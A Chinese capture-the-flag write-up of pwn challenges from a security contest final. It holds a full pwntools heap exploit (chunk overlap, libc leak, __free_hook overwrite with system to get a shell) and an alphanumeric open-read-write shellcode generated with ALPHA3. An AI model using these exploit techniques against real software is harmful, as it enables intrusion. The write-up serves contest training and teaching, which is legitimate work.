# 第二届“长城杯”信息安全铁人三项赛（防护赛）总决赛-Pwn方向部分题解

‍

今年 `第二届“长城杯”信息安全铁人三项赛（防护赛）总决赛` ，一共 4道 pwn 题，我只打出其中三道题。

总的来说做出的这三道题目还是比较简单的

‍


‍

## interpreter

### 简单分析

‍

一个堆题目，三个功能点，add delete show





‍

- show功能，没问题

```c
unsigned __int64 sub_12FD()
{
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  for ( i = 0; i <= 15; ++i )
  {
    if ( qword_2020A8[2 * i] )
    {
      printf("Data #%d:\n", i);
      printf("Data: %s\n", (const char *)qword_2020A8[2 * i]);
    }
  }
  return __readfsqword(0x28u) ^ v2;
}
```

‍

- delete 功能, 应该没有漏洞

```c
unsigned __int64 __fastcall sub_1141(const char *a1)
{
  char *s1a; // [rsp+8h] [rbp-28h]
  int i; // [rsp+18h] [rbp-18h]
  int j; // [rsp+18h] [rbp-18h]
  unsigned int v6; // [rsp+1Ch] [rbp-14h]
  void **v7; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  for ( i = 0; ; a1 += (unsigned int)(i + 1) )
  {
    while ( a1[i] != 32 && a1[i] && a1[i] != 58 )
      ++i;
    if ( !a1[i] )
      break;
    if ( a1[i] != 32 )
    {
      a1[i] = 0;
      if ( !strcmp(a1, "index") )
      {
        s1a = (char *)&a1[i + 1];
        for ( j = 0; s1a[j] != 32 && s1a[j]; ++j )
          ;
        v6 = atoi(s1a);
        if ( v6 <= 0xF )
        {
          v7 = (void **)((char *)&unk_2020A0 + 16 * v6);
          if ( v7[1] )
          {
            free(v7[1]);                        // 不存在 UAF
            v7[1] = 0LL;
            *((_DWORD *)v7 + 1) = 0;
            printf("Deleted data #%d\n", v6);
          }
          else
          {
            puts("No such data!");
          }
        }
        else
        {
          puts("Invalid index!");
        }
      }
      else
      {
        puts("Invalid argument");
      }
      return __readfsqword(0x28u) ^ v8;
    }
  }
  return __readfsqword(0x28u) ^ v8;
}
```

‍

- add 函数， 漏洞就在 add 函数里面了，注意这个地方


这个函数看着比较复杂（我没看明白）



看不太明白 经过手动多次测试  这里是存在堆溢出的, 后面就简单了，构造堆块重叠泄露libc 和控制 fd ，申请到 free_hook 即可

```python
pay = b':title::subtitle:AAAABBBB'
add(pay)
```

‍



溢出构造一个大堆块 free 后 进入 `unsortedbin`, 再add  就可以堆块重叠了


‍

### exploit

比较简单

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '10.10.1.112 111'.replace(' ',':')
binary = './pwn'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
#brva 0x1426
#brva 0x013F1
#brva 0x0104A
#brva 0x0010C2
#brva 0x0E4F
brva 0x0144F
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])


def add(text):
    ru('user@machine$')
    pay1 = b'add data:' + text
    sl(pay1)

def rm(idx):
    ru('user@machine$')
    pay1 = b'delete index:' + str(idx).encode()
    sl(pay1)

def show():
    ru('user@machine$')
    pay1 = b'show '
    sl(pay1)


pay = b'A' * 0x27
add(pay)
#add(pay)
add(b'A'*0xF7)
add(b'HHHHHH1')
add(b'HHHHHH2')
add(b'B'*0xF7)
add(b'C'*0xF7)
add(b'D'*0xF7)
add(b'E'*(0xF7-0x40))
add(b'F'*0xF7)
add(b'F'*0xF7)
add(b'F'*0xF7)
add(b'F'*0xF7)

rm(0)
rm(2)
rm(3)
pay = b':title:AAAAAAAAA:subtitle:A' + p32(0x601)
#pay = b'C' * 0x28
add(pay)
rm(1)
add(0x4F7*b'A')
show()
ru('Data #8:')
ru(': ')
libc_base = uu64(r(6)) - 0x3ebca0
lss('libc_base')
libc.address = libc_base
free_hook = libc.sym['__free_hook']
system = libc.sym['system']

rm(1)

add(b'Y'*0x127)
rm(1)
add(b'Y'*0x126)
rm(1)
add(b'Y'*0x125)
rm(1)
add(b'Y'*0x120 + p64(free_hook))
#

#rm(4)
#rm(3)
#
#add(b'A'*0x100+p64(free_hook))
#
add(b'/bin/sh')
add(p64(system))

#add(b'/bin/sh\x00')
#add(b'/bin/sh\x00')
#add(b'/bin/sh\x00')
#add(b'/bin/sh\x00')
#gdb.attach(io,gdbscript=gdbscript)
#pause()
rm(2)
#rm(0)
#show()
#pay = flat({
#},filler=b'\x00')
#gdb.attach(io,gdbscript)

# libc.address = libc_base
# system = libc.sym['system']
# bin_sh = next(libc.search(b'/bin/sh'))
itr()

```

‍

‍

‍

‍

## orw

### 简单分析

这题更是简单，直接秒了

‍

  有花指令，去掉之后可以看到正常的函数流程

‍

可以设置 `is_ne` 的值（后续shellcode 的长度），还有泄露 elf 地址，



‍

‍



‍

‍

​`Shift + f1` 调出 Local Tyes 然后 添加 一个新的结构体

```c
struct ProtobufCFieldDescriptor
{
  char *name;
  int id;
  int label;
  int type;
  int quantifier_offset;
  int offset;
  __attribute__((packed)) __attribute__((aligned(1))) __int64 descriptor;
  __attribute__((packed)) __attribute__((aligned(1))) __int64 default_value;
  int flags;
  int reserved_flags;
  __int64 reserved2;
  __int64 reserved3;
};

```



再地址处 按y 修改类型，后续根据 name 和 type 来恢复 结构体用于交互



‍

```c


.data.rel.ro:0000000000004B20 stru_4B20       dq offset aGiaoid       ; name
.data.rel.ro:0000000000004B20                                         ; DATA XREF: .data.rel.ro:0000000000004C78↓o
.data.rel.ro:0000000000004B28                 dd 1                    ; id ; "giaoid"
.data.rel.ro:0000000000004B2C                 dd 3                    ; label
.data.rel.ro:0000000000004B30                 dd 3                    ; type
.data.rel.ro:0000000000004B34                 dd 0                    ; quantifier_offset
.data.rel.ro:0000000000004B38                 dd 18h                  ; offset
.data.rel.ro:0000000000004B3C                 dq 0                    ; descriptor
.data.rel.ro:0000000000004B44                 dq 0                    ; default_value
.data.rel.ro:0000000000004B4C                 dd 0                    ; flags
.data.rel.ro:0000000000004B50                 dd 0                    ; reserved_flags
.data.rel.ro:0000000000004B54                 db 4 dup(0)
.data.rel.ro:0000000000004B58                 dq 0                    ; reserved2
.data.rel.ro:0000000000004B60                 dq 0                    ; reserved3
.data.rel.ro:0000000000004B68 ; struct ProtobufCFieldDescriptor ProtobufCFieldDescriptor
.data.rel.ro:0000000000004B68 ProtobufCFieldDescriptor dq offset aGiaosize     ; name ; "giaosize"
.data.rel.ro:0000000000004B70                 dd 2                    ; id
.data.rel.ro:0000000000004B74                 dd 3                    ; label
.data.rel.ro:0000000000004B78                 dd 3                    ; type
.data.rel.ro:0000000000004B7C                 dd 0                    ; quantifier_offset
.data.rel.ro:0000000000004B80                 dd 20h                  ; offset
.data.rel.ro:0000000000004B84                 dq 0                    ; descriptor
.data.rel.ro:0000000000004B8C                 dq 0                    ; default_value
.data.rel.ro:0000000000004B94                 dd 0                    ; flags
.data.rel.ro:0000000000004B98                 dd 0                    ; reserved_flags
.data.rel.ro:0000000000004B9C                 db 4 dup(0)
.data.rel.ro:0000000000004BA0                 dq 0                    ; reserved2
.data.rel.ro:0000000000004BA8                 dq 0                    ; reserved3
.data.rel.ro:0000000000004BB0 ; struct ProtobufCFieldDescriptor a1
.data.rel.ro:0000000000004BB0 a1              dq offset aGiaocontent  ; name ; "giaocontent"
.data.rel.ro:0000000000004BB8                 dd 3                    ; id
.data.rel.ro:0000000000004BBC                 dd 3                    ; label
.data.rel.ro:0000000000004BC0                 dd 0Fh                  ; type
.data.rel.ro:0000000000004BC4                 dd 0                    ; quantifier_offset
.data.rel.ro:0000000000004BC8                 dd 28h                  ; offset
.data.rel.ro:0000000000004BCC                 dq 0                    ; descriptor
.data.rel.ro:0000000000004BD4                 dq 0                    ; default_value
.data.rel.ro:0000000000004BDC                 dd 0                    ; flags
.data.rel.ro:0000000000004BE0                 dd 0                    ; reserved_flags
.data.rel.ro:0000000000004BE4                 db 4 dup(0)
.data.rel.ro:0000000000004BE8                 dq 0                    ; reserved2
.data.rel.ro:0000000000004BF0                 dq 0                    ; reserved3
.data.rel.ro:0000000000004BF8 ; struct ProtobufCFieldDescriptor a2
.data.rel.ro:0000000000004BF8 a2              dq offset aGiaotoken    ; name ; "giaotoken"
.data.rel.ro:0000000000004C00                 dd 4                    ; id
.data.rel.ro:0000000000004C04                 dd 3                    ; label
.data.rel.ro:0000000000004C08                 dd 0Fh                  ; type
.data.rel.ro:0000000000004C0C                 dd 0                    ; quantifier_offset
.data.rel.ro:0000000000004C10                 dd 38h                  ; offset
.data.rel.ro:0000000000004C14                 dq 0                    ; descriptor
.data.rel.ro:0000000000004C1C                 dq 0                    ; default_value
.data.rel.ro:0000000000004C24                 dd 0                    ; flags
.data.rel.ro:0000000000004C28                 dd 0                    ; reserved_flags
.data.rel.ro:0000000000004C2C                 db 4 dup(0)
.data.rel.ro:0000000000004C30                 dq 0                    ; reserved2
.data.rel.ro:0000000000004C38                 dq 0                    ; reserved3
```

‍

- type 对照表

|数字|ProtobufCType|数据类型|描述|
| ------| --------------------------| ----------| --------------------------------|
|0x00|PROTOBUF_C_TYPE_INT32|int32|32 位有符号整数|
|0x01|PROTOBUF_C_TYPE_SINT32|sint32|32 位有符号整数（ZigZag 编码）|
|0x02|PROTOBUF_C_TYPE_SFIXED32|sfixed32|32 位固定长度有符号整数|
|0x03|PROTOBUF_C_TYPE_INT64|int64|64 位有符号整数|
|0x04|PROTOBUF_C_TYPE_SINT64|sint64|64 位有符号整数（ZigZag 编码）|
|0x05|PROTOBUF_C_TYPE_SFIXED64|sfixed64|64 位固定长度有符号整数|
|0x06|PROTOBUF_C_TYPE_UINT32|uint32|32 位无符号整数|
|0x07|PROTOBUF_C_TYPE_FIXED32|fixed32|32 位固定长度无符号整数|
|0x08|PROTOBUF_C_TYPE_UINT64|uint64|64 位无符号整数|
|0x09|PROTOBUF_C_TYPE_FIXED64|fixed64|64 位固定长度无符号整数|
|0x0A|PROTOBUF_C_TYPE_FLOAT|float|32 位浮点数|
|0x0B|PROTOBUF_C_TYPE_DOUBLE|double|64 位浮点数|
|0x0C|PROTOBUF_C_TYPE_BOOL|bool|布尔值|
|0x0D|PROTOBUF_C_TYPE_ENUM|enum|枚举类型|
|0x0E|PROTOBUF_C_TYPE_STRING|string|UTF-8 字符串|
|0x0F|PROTOBUF_C_TYPE_BYTES|bytes|字节数组|
|0x10|PROTOBUF_C_TYPE_MESSAGE|message|嵌套消息类型|

‍

‍



```protobuf
syntax = "proto3";
package mypackage;

message pwn2 {
    int64 giaoid = 1;
    int64 giaosize = 2;
    bytes giaocontent = 3;
    bytes giaotoken = 4;
}
```

‍

‍

‍

其实就是一个简单的 可见字符shellcode



动态调试获取 token，其实就是一个 RC4



我用ALPHA3 工具生成的 可见字符 shellcode

```python

➜  MY_TEST cat 1.py
from pwn import *
context.arch='amd64'
sc = '''
push 0
push 0
pop rdi
pop r8
mov rsi,rcx
push 0x100
pop rdx
push 17
pop rax
syscall
'''
sc  = asm(shellcraft.open('flag',0))
sc += asm(shellcraft.read('rax','rsp',0x100))
sc += asm(shellcraft.write(1,'rsp',0x100))

open('./alpha3/shellcode','wb').write(sc)
import os

os.system('cd ./alpha3/ && python2 ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"')
# python3 $1 >shellcode
# python2 ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
➜  MY_TEST py 1.py
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2E0T2I0Q030z3P3G1P3r123V2p01187l0B0y3I3d0C3a133q3p03084y3G7n7m1m0m0o0s3r8O02114z4B0Z0B0k0n0403
```

‍

‍

### exploit

‍

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '1 1'.replace(' ',':')
binary = './ez_orw'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
brva 0x01DFE
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])

ru('\n')
sl('1')

